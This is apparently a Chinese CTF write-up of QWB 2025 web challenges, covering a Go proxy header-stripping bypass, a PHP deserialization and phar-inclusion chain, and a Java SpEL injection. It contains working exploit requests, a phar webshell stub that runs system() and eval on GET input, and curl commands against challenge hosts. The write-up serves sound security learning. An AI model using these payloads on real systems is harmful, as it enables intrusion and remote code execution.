+++
title= "QWB2025"
slug= "qwb-2025"
description= ""
date= "2025-10-21T22:13:23+08:00"
lastmod= "2025-10-21T22:13:23+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= ["php","go","java"]

+++

## SecretVault

go 和 flask进行结合

```go
package main

import (
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"log"
	"net/http"
	"net/http/httputil"
	"strings"
	"time"

	"github.com/golang-jwt/jwt/v5"
	"github.com/gorilla/mux"
)

var (
	SecretKey = hex.EncodeToString(RandomBytes(32))
)

type AuthClaims struct {
	jwt.RegisteredClaims
	UID string `json:"uid"`
}

func RandomBytes(length int) []byte {
	b := make([]byte, length)
	if _, err := rand.Read(b); err != nil {
		return nil
	}
	return b
}

func SignToken(uid string) (string, error) {
	t := jwt.NewWithClaims(jwt.SigningMethodHS256, AuthClaims{
		UID: uid,
		RegisteredClaims: jwt.RegisteredClaims{
			Issuer:    "Authorizer",
			Subject:   uid,
			ExpiresAt: jwt.NewNumericDate(time.Now().Add(time.Hour)),
			IssuedAt:  jwt.NewNumericDate(time.Now()),
			NotBefore: jwt.NewNumericDate(time.Now()),
		},
	})
	tokenString, err := t.SignedString([]byte(SecretKey))
	if err != nil {
		return "", err
	}
	return tokenString, nil
}

func GetUIDFromRequest(r *http.Request) string {
	authHeader := r.Header.Get("Authorization")
	if authHeader == "" {
		cookie, err := r.Cookie("token")
		if err == nil {
			authHeader = "Bearer " + cookie.Value
		} else {
			return ""
		}
	}
	if len(authHeader) <= 7 || !strings.HasPrefix(authHeader, "Bearer ") {
		return ""
	}
	tokenString := strings.TrimSpace(authHeader[7:])
	if tokenString == "" {
		return ""
	}
	token, err := jwt.ParseWithClaims(tokenString, &AuthClaims{}, func(token *jwt.Token) (interface{}, error) {
		if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
			return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
		}
		return []byte(SecretKey), nil
	})
	if err != nil {
		log.Printf("failed to parse token: %v", err)
		return ""
	}
	claims, ok := token.Claims.(*AuthClaims)
	if !ok || !token.Valid {
		log.Printf("invalid token claims")
		return ""
	}
	return claims.UID
}

func main() {
	authorizer := &httputil.ReverseProxy{Director: func(req *http.Request) {
		req.URL.Scheme = "http"
		req.URL.Host = "127.0.0.1:5000"

		uid := GetUIDFromRequest(req)
		log.Printf("Request UID: %s, URL: %s", uid, req.URL.String())
		req.Header.Del("Authorization")
		req.Header.Del("X-User")
		req.Header.Del("X-Forwarded-For")
		req.Header.Del("Cookie")

		if uid == "" {
			req.Header.Set("X-User", "anonymous")
		} else {
			req.Header.Set("X-User", uid)
		}
	}}

	signRouter := mux.NewRouter()
	signRouter.HandleFunc("/sign", func(w http.ResponseWriter, r *http.Request) {
		if !strings.HasPrefix(r.RemoteAddr, "127.0.0.1:") {
			http.Error(w, "Forbidden", http.StatusForbidden)
		}
		uid := r.URL.Query().Get("uid")
		token, err := SignToken(uid)
		if err != nil {
			log.Printf("Failed to sign token: %v", err)
			http.Error(w, "Failed to generate token", http.StatusInternalServerError)
			return
		}
		w.Write([]byte(token))
	}).Methods("GET")

	log.Println("Sign service is running at 127.0.0.1:4444")
	go func() {
		if err := http.ListenAndServe("127.0.0.1:4444", signRouter); err != nil {
			log.Fatal(err)
		}
	}()

	log.Println("Authorizer middleware service is running at :5555")
	if err := http.ListenAndServe(":5555", authorizer); err != nil {
		log.Fatal(err)
	}
}
```

生成随机密钥， 提供一个`/sign`，接受 `?uid=...` 并返回一个用 `HS256` 签名的 JWT（有效期 1 小时）。`/sign`只有本机请求允许，admin 的 uid 为 0

在 `:5555` 上运行一个反向代理（authorizer），把外部请求转发到后端 Flask（`127.0.0.1:5000`），并根据请求中的 JWT（cookie 或 `Authorization`）解析出 `uid`，把它放到转发请求的 `X-User` 头里。

调用 `GetUIDFromRequest(req)`，尝试从 `Authorization` 标头或 `token` Cookie 中解析 JWT 令牌，获取用户 ID (`uid`)。它会主动删除所有来自外部用户的 `X-User` 标头。这是为了防止攻击者直接发送 `X-User: 0` 来伪造身份。

```python
import base64
import os
import secrets
import sys
from datetime import datetime
from functools import wraps
import requests

from cryptography.fernet import Fernet
from flask import (
    Flask,
    flash,
    g,
    jsonify,
    make_response,
    redirect,
    render_template,
    request,
    url_for,
)
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy.exc import IntegrityError
import hashlib

db = SQLAlchemy()

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password_hash = db.Column(db.String(128), nullable=False)
    salt = db.Column(db.String(64), nullable=False)
    created_at = db.Column(db.DateTime, default=datetime.utcnow, nullable=False)
    vault_entries = db.relationship('VaultEntry', backref='user', lazy=True, cascade='all, delete-orphan')


class VaultEntry(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    label = db.Column(db.String(120), nullable=False)
    login = db.Column(db.String(120), nullable=False)
    password_encrypted = db.Column(db.Text, nullable=False)
    notes = db.Column(db.Text)
    created_at = db.Column(db.DateTime, default=datetime.utcnow, nullable=False)

def hash_password(password: str, salt: bytes) -> str:
    data = salt + password.encode('utf-8')
    for _ in range(50):
        data = hashlib.sha256(data).digest()
    return base64.b64encode(data).decode('utf-8')

def verify_password(password: str, salt_b64: str, digest: str) -> bool:
    salt = base64.b64decode(salt_b64.encode('utf-8'))
    return hash_password(password, salt) == digest

def generate_salt() -> bytes:
    return secrets.token_bytes(16)

def create_app() -> Flask:
    app = Flask(__name__)
    app.config['SECRET_KEY'] = secrets.token_hex(32)
    app.config['SQLALCHEMY_DATABASE_URI'] = os.getenv('DATABASE_URL', 'sqlite:///vault.db')
    app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
    app.config['SIGN_SERVER'] = os.getenv('SIGN_SERVER', 'http://127.0.0.1:4444/sign')
    fernet_key = os.getenv('FERNET_KEY')
    if not fernet_key:
        raise RuntimeError('Missing FERNET_KEY environment variable. Generate one with `python -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"`.')
    app.config['FERNET_KEY'] = fernet_key
    db.init_app(app)

    fernet = Fernet(app.config['FERNET_KEY'])
    with app.app_context():
        db.create_all()

        if not User.query.first():
            salt = secrets.token_bytes(16)
            password = secrets.token_bytes(32).hex()
            password_hash = hash_password(password, salt)
            user = User(
                id=0,
                username='admin',
                password_hash=password_hash,
                salt=base64.b64encode(salt).decode('utf-8'),
            )
            db.session.add(user)
            db.session.commit()

            flag = open('/flag').read().strip()
            flagEntry = VaultEntry(
                user_id=user.id,
                label='flag',
                login='flag',
                password_encrypted=fernet.encrypt(flag.encode('utf-8')).decode('utf-8'),
                notes='This is the flag entry.',
            )
            db.session.add(flagEntry)
            db.session.commit()

    def login_required(view_func):
        @wraps(view_func)
        def wrapped(*args, **kwargs):
            uid = request.headers.get('X-User', '0')
            print(uid)
            if uid == 'anonymous':
                flash('Please sign in first.', 'warning')
                return redirect(url_for('login'))
            try:
                uid_int = int(uid)
            except (TypeError, ValueError):
                flash('Invalid session. Please sign in again.', 'warning')
                return redirect(url_for('login'))
            user = User.query.filter_by(id=uid_int).first()
            if not user:
                flash('User not found. Please sign in again.', 'warning')
                return redirect(url_for('login'))

            g.current_user = user
            return view_func(*args, **kwargs)

        return wrapped

    @app.route('/')
    def index():
        uid = request.headers.get('X-User', '0')
        if not uid or uid == 'anonymous':
            return redirect(url_for('login'))
        
        return redirect(url_for('dashboard'))

    @app.route('/register', methods=['GET', 'POST'])
    def register():
        if request.method == 'POST':
            username = request.form.get('username', '').strip()
            password = request.form.get('password', '')
            confirm_password = request.form.get('confirm_password', '')
            if not username or not password:
                flash('Username and password are required.', 'danger')
                return render_template('register.html')
            if password != confirm_password:
                flash('Passwords do not match.', 'danger')
                return render_template('register.html')
            salt = generate_salt()
            password_hash = hash_password(password, salt)
            user = User(
                username=username,
                password_hash=password_hash,
                salt=base64.b64encode(salt).decode('utf-8'),
            )
            db.session.add(user)
            try:
                db.session.commit()
            except IntegrityError:
                db.session.rollback()
                flash('Username already exists. Please choose another.', 'warning')
                return render_template('register.html')
            flash('Registration successful. Please sign in.', 'success')
            return redirect(url_for('login'))
        return render_template('register.html')

    @app.route('/login', methods=['GET', 'POST'])
    def login():
        if request.method == 'POST':
            username = request.form.get('username', '').strip()
            password = request.form.get('password', '')
            user = User.query.filter_by(username=username).first()
            if not user or not verify_password(password, user.salt, user.password_hash):
                flash('Invalid username or password.', 'danger')
                return render_template('login.html')
            r = requests.get(app.config['SIGN_SERVER'], params={'uid': user.id}, timeout=5)
            if r.status_code != 200:
                flash('Unable to reach the authentication server. Please try again later.', 'danger')
                return render_template('login.html')
            
            token = r.text.strip()
            response = make_response(redirect(url_for('dashboard')))
            response.set_cookie(
                'token',
                token,
                httponly=True,
                secure=app.config.get('SESSION_COOKIE_SECURE', False),
                samesite='Lax',
                max_age=12 * 3600,
            )
            return response
        return render_template('login.html')

    @app.route('/logout')
    def logout():
        response = make_response(redirect(url_for('login')))
        response.delete_cookie('token')
        flash('Signed out.', 'info')
        return response

    @app.route('/dashboard')
    @login_required
    def dashboard():
        user = g.current_user
        entries = [
            {
                'id': entry.id,
                'label': entry.label,
                'login': entry.login,
                'password': fernet.decrypt(entry.password_encrypted.encode('utf-8')).decode('utf-8'),
                'notes': entry.notes,
                'created_at': entry.created_at,
            }
            for entry in user.vault_entries
        ]
        return render_template('dashboard.html', username=user.username, entries=entries)

    @app.route('/passwords/new', methods=['POST'])
    @login_required
    def create_password():
        user = g.current_user
        label = request.form.get('label', '').strip()
        login_value = request.form.get('login', '').strip()
        password_plain = request.form.get('password', '').strip()
        notes = request.form.get('notes', '').strip() or None
        if not label or not login_value or not password_plain:
            flash('Service name, login, and password are required.', 'danger')
            return redirect(url_for('dashboard'))
        encrypted_password = fernet.encrypt(password_plain.encode('utf-8')).decode('utf-8')
        entry = VaultEntry(
            user_id=user.id,
            label=label,
            login=login_value,
            password_encrypted=encrypted_password,
            notes=notes,
        )
        db.session.add(entry)
        db.session.commit()
        flash('Password entry saved.', 'success')
        return redirect(url_for('dashboard'))

    @app.route('/passwords/<int:entry_id>', methods=['DELETE'])
    @login_required
    def delete_password(entry_id: int):
        user = g.current_user
        entry = VaultEntry.query.filter_by(id=entry_id, user_id=user.id).first()
        if not entry:
            return jsonify({'success': False, 'message': 'Entry not found'}), 404
        db.session.delete(entry)
        db.session.commit()
        return jsonify({'success': True})

    return app


if __name__ == '__main__':
    flask_app = create_app()
    flask_app.run(host='127.0.0.1', port=5000, debug=False)
```

看到 go 和 flask 

https://portswigger.net/research/http1-must-die
defcon 今年的议题，我当时看着这个光头讲了半天没看懂，找到payload之后发现

```http
GET / HTTP/1.1
Host: 8.147.135.168:37039
Connection: keep-alive

POST /login HTTP/1.1
Host: 8.147.135.168:37039
Content-Length: 0

GET /dashboard HTTP/1.1
Host: 8.147.135.168:37039
X-User: 0
```



```http
GET / HTTP/1.1
Host: 8.147.135.168:37039
Connection: keep-alive


GET /dashboard HTTP/1.1
Host: 8.147.135.168:37039
X-User: 0
```



发现不能够过去，必须要登录， 但是如果我们发送一个包含`Connection: X-User`标头的请求，Go 代理（前端）首先尝试认证，认证失败后设置 `X-User: anonymous`，但在转发请求前，Go 代理遵守了 `Connection` 标头的逐跳指令，将自己设置的 `X-User` 标头删掉了。Python 后端收到的是一个完全不包含 `X-User` 标头的请求，就会默认设置为 0，也就是 admin 了。

```http
GET /dashboard HTTP/1.1
Host:  8.147.135.168:37039
Connection: X-User
```



## ezphp

```php
<?php

function generateRandomString($length = 8)
{
    $characters = 'abcdefghijklmnopqrstuvwxyz';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $r = rand(0, strlen($characters) - 1);
        $randomString .= $characters[$r];
    }
    return $randomString;
}

date_default_timezone_set('Asia/Shanghai');

class test
{
    public $readflag;
    public $f;
    public $key;

    public function __construct()
    {
        $this->readflag = new class {
            public function __construct()
            {
                if (isset($_FILES['file']) && $_FILES['file']['error'] == 0) {
                    $time = date('Hi');
                    $filename = $GLOBALS['filename'];
                    $seed = $time . intval($filename);
                    mt_srand($seed);
                    $uploadDir = 'uploads/';
                    $files = glob($uploadDir . '*');
                    foreach ($files as $file) {
                        if (is_file($file)) unlink($file);
                    }
                    $randomStr = generateRandomString(8);
                    $newFilename = $time . '.' . $randomStr . '.' . 'jpg';
                    $GLOBALS['file'] = $newFilename;
                    $uploadedFile = $_FILES['file']['tmp_name'];
                    $uploadPath = $uploadDir . $newFilename;
                    if (system("cp " . $uploadedFile . " " . $uploadPath)) {
                        echo "success upload!";
                    } else {
                        echo "error";
                    }
                }
            }
        };
    }

    public function __wakeup()
    {
        phpinfo();
    }

    public function readflag()
    {
        // Note: This function is defined inside another method,
        // which might not behave as expected.
        function readflag()
        {
            if (isset($GLOBALS['file'])) {
                $file = $GLOBALS['file'];
                $file = basename($file);
                if (preg_match('/:\/\//', $file))
                    die("error");
                $file_content = file_get_contents("uploads/" . $file);
                if (preg_match('/<\?|\:\/\/|ph|\?\=/i', $file_content)) {
                    die("Illegal content detected in the file.");
                }
                include("uploads/" . $file);
            }
        }
    }

    public function __destruct()
    {
        $func = $this->f;
        $GLOBALS['filename'] = $this->readflag;
        if ($this->key == 'class')
            new $func();
        else if ($this->key == 'func') {
            $func();
        } else {
            highlight_file('index.php');
        }
    }
}

$ser = isset($_GET['land']) ? $_GET['land'] : 'O:4:"test":N';
@unserialize($ser);
```

很明显的反序列化漏洞，可以直接到反序列化，

```python
?land=O:4:"test":2:{s:1:"f";s:7:"phpinfo";s:3:"key";s:4:"func";}
```

得知php版本7.4.33，并且有部分 disable，没有 system 所以不影响，不需要绕过 wakeup，因为也没有影响。

```php
call_user_func_array,call_user_func,create_function,ob_start,passthru,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv,
```

但是如何调用到 test.readflag.readflag 呢

https://www.leavesongs.com/PENETRATION/php-challenge-2023-oct.html

保存base64解码后的文件为 test.php，用同款插件分析



本地可以用 `%00readflag%2Fhome%2Fmingzu%2FCTF%2Fqwb%2Fezphp%2Ftest.php%3A59%241` 执行 `readflag`

测试后可从远程环境报错得知 eval 之后的路径是 

```
/var/www/html/index.php(1) : eval()'d code
```

且行号是 1

所以远程可以通过

`%00readflag%2Fvar%2Fwww%2Fhtml%2Findex.php%281%29+%3A+eval%28%29%27d+code%3A1%241` 执行 readflag

$后面的数字会自增，但是没测出自增的规律，所以猜不到了就重启靶机

然后打include phar

```php
<?php
$phar = new Phar('exp.phar');
$phar->startBuffering();

$stub = <<<'STUB'
<?php
    print 123;
    system('cat /flag');
    system('/readflag');
    eval($_GET[1]);
    __HALT_COMPILER();
?>
STUB;

$phar->setStub($stub);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();

?>
```



但是上传之后文件名会被重命名，include 去包含 .phar.gz 类文件必须有 phar 字符串的出现，测试后发现 `xxxx.pharxxxx.jpg` 在 include 时会被正确加载

```php
$time = date('Hi');
$filename = $GLOBALS['filename'];
$seed = $time . intval($filename);
mt_srand($seed);
$randomStr = generateRandomString(8);
```

所以我们需要控制文件名，由于种子可以预测文件名，所以可以爆破出小时分钟+某个数字的seed，让 generateRandomString 函数输出的前四个是phar

然后将这个种子后缀，也就是我们想要的 $filename 的值，放到 test 实例的 readflag 成员变量中，使得反序列化时全局变量 filename 的值为这个数字

此时触发 upload，则计算出的 file 变量的值就是xxxx.pharxxxx.png

再去调用 readflag 函数，这样就可以触发 phar

但是这种情况下在一分钟内有效，反序列化的 exp 如下

```php
<?php
date_default_timezone_set('Asia/Shanghai');

function generateRandomString($length = 8) {
  $characters = 'abcdefghijklmnopqrstuvwxyz';
  $randomString = '';
  for ($i = 0; $i < $length; $i++) {
    $r = rand(0, strlen($characters) - 1);
    // echo $r . " ";
    $randomString .= $characters[$r];
  }
  return $randomString;
}

function brute() {
  $time = date('Hi');
  for ($t=0; $t<=10000000; $t++)
    {
      $seed = $time . $t;
      mt_srand($seed);
      $x = generateRandomString(4);
      // echo $seed . " " . $x . "\n";
      if ($x == "phar") {
        mt_srand($seed);
        echo $t . " " . $seed . " " . generateRandomString() . "\n";
        return $t;
      }
    }
  return "";
}

class test{
  public $readflag;
  public $f;
  public $key;
}

$absolute_path = "/var/www/html/index.php(1) : eval()'d code";
$line_number = 1;

// $absolute_path = "/var/www/html/test.php";
// $line_number = 61;


$internal_func_name = "\0readflag" . $absolute_path . ":" . $line_number . "$1";
//echo urlencode($internal_func_name) . "\n";

$x = new test();
$x->key = "class";
$x->f = "test";
$x->readflag = "" . brute();

$y = new test();
$y->key = "func";
$y->f = $internal_func_name;
$y->readflag = "";

$z = new test();
$z->key = "none";
$z->f = $y;
$z->readflag = $x;

$payload = serialize($z);


echo $payload . "\n";

$payload = urlencode($payload);
echo $payload . "\n";
```

构造的思路是，先 upload 然后 readflag

upload 只能由 __construct 触发，所以 $x 这个实例是固定的，因为在执行 `new test()` 之前 `$GLOBALS['filename']` 的值会被 $this->readflag 这个成员变量覆盖，所以 $x 的 readflag 只能是爆破出的种子后缀

$y 的构造思路也很简单，就是使用 `\0` 开头的函数名直接执行位于第一行的函数 readflag，实现文件包含

`class` 和 `func` 两个功能的调用都是依赖于 test 类的 __destruct，所以需要另外一个实例来调一下这两个的触发顺序，先反序列化的会后销毁，所以将 $y 放在 $x 前面，就能使得 $x 对应的 upload 先触发，$y 对应的 readflag 后触发，上传的时候就要触发

```http
POST /index.php?land=O%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3BO%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3Bs%3A6%3A%22510868%22%3Bs%3A1%3A%22f%22%3Bs%3A4%3A%22test%22%3Bs%3A3%3A%22key%22%3Bs%3A5%3A%22class%22%3B%7Ds%3A1%3A%22f%22%3BO%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3Bs%3A0%3A%22%22%3Bs%3A1%3A%22f%22%3Bs%3A55%3A%22%00readflag%2Fvar%2Fwww%2Fhtml%2Findex.php%281%29+%3A+eval%28%29%27d+code%3A1%241%22%3Bs%3A3%3A%22key%22%3Bs%3A4%3A%22func%22%3B%7Ds%3A3%3A%22key%22%3Bs%3A4%3A%22none%22%3B%7D&1=phpinfo(); HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMvFc5zDkBcoa1yiL
Content-Length: 138

------WebKitFormBoundaryMvFc5zDkBcoa1yiL
Content-Disposition: form-data; name="file"; filename="119738"
Content-Type: image/jpeg

{{file:line(C:\Users\baozhongqi\Desktop\final.phar.gz)}}
------WebKitFormBoundaryMvFc5zDkBcoa1yiL--
```

读取 /flag 不成功，suid 提权即可

```http
POST /index.php?land=O%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3BO%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3Bs%3A6%3A%22295468%22%3Bs%3A1%3A%22f%22%3Bs%3A4%3A%22test%22%3Bs%3A3%3A%22key%22%3Bs%3A5%3A%22class%22%3B%7Ds%3A1%3A%22f%22%3BO%3A4%3A%22test%22%3A3%3A%7Bs%3A8%3A%22readflag%22%3Bs%3A0%3A%22%22%3Bs%3A1%3A%22f%22%3Bs%3A55%3A%22%00readflag%2Fvar%2Fwww%2Fhtml%2Findex.php%281%29+%3A+eval%28%29%27d+code%3A1%241%22%3Bs%3A3%3A%22key%22%3Bs%3A4%3A%22func%22%3B%7Ds%3A3%3A%22key%22%3Bs%3A4%3A%22none%22%3B%7D&1=system("ls+%2F%3Bbase64+%27%2Fflag%27+%7C+base64+--decode"); HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMvFc5zDkBcoa1yiL
Content-Length: 138

------WebKitFormBoundaryMvFc5zDkBcoa1yiL
Content-Disposition: form-data; name="file"; filename="295468"
Content-Type: image/jpeg

{{file:line(C:\Users\baozhongqi\Desktop\final.phar.gz)}}
------WebKitFormBoundaryMvFc5zDkBcoa1yiL--
```

挺复杂的一道题，几乎是和队友做了整整24小时

## bbjv

```java
package com.ctf.gateway.controller;

import com.ctf.gateway.service.EvaluationService;
import java.io.BufferedReader;
import java.io.File;
import java.io.FileNotFoundException;
import java.io.FileReader;
import java.io.IOException;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: app.jar:BOOT-INF/classes/com/ctf/gateway/controller/GatewayController.class */
public class GatewayController {
    private final EvaluationService evaluationService;

    public GatewayController(EvaluationService evaluationService) {
        this.evaluationService = evaluationService;
    }

    @GetMapping({"/check"})
    public String checkRule(@RequestParam String rule) throws FileNotFoundException {
        String result = this.evaluationService.evaluate(rule);
        File flagFile = new File(System.getProperty("user.home"), "flag.txt");
        if (flagFile.exists()) {
            try {
                BufferedReader br = new BufferedReader(new FileReader(flagFile));
                try {
                    String content = br.readLine();
                    result = result + "<br><b>�� Flag:</b> " + content;
                    br.close();
                } finally {
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        return result;
    }
}
```

找到路由，只要我能把 user.home 设置为`/tmp`即可读取，SpEL表达式注入

```python
curl -s -k -G "https://eci-2zea7hvcu2974q96yu5q.cloudeci1.ichunqiu.com:8080/check" --data-urlencode "rule=#{#systemProperties['user.home']}".home']}"
Result: /root


curl -s -k -G "https://eci-2zea7hvcu2974q96yu5q.cloudeci1.ichunqiu.com:8080/check" --data-urlencode "rule=#{#systemProperties['user.home']='/tmp'}"

Result: /rootroot@jpzuPcurl -s -k -G "https://eci-2zea7hvcu2974q96yu5q.cloudeci1.ichunqiu.com:8080/check" --data-urlencode "rule=#{#systemProperties['user.home']='/tmp'}"me']='/tmp'}"
Result: /tmp<br><b>🚩 Flag:</b> flag{d7389950-71f8-4898-a0b3-9108e5bddf30}root@jpzuP3ZFPNnal4:~# 
```

本来打算直接设置为`/tmp`，在读取的，但是直接返回了

## Yamcs

```plain
FROM maven:3.9.9-eclipse-temurin-17

WORKDIR /build

RUN apt-get update && apt-get install -y git && \
    git clone https://github.com/yamcs/quickstart.git

WORKDIR /build/quickstart

RUN chmod +x mvnw
RUN ./mvnw compile

RUN apt-get update && \
    apt-get install -y python3 python3-pip && \
    apt-get clean

RUN ./mvnw dependency:go-offline

RUN echo FLAG>/flag
EXPOSE 8090

CMD bash -c '\
  nohup python3 simulator.py >/dev/null 2>&1 & \
  ./mvnw yamcs:run'
```

直接本地 clone 项目，很小，发现

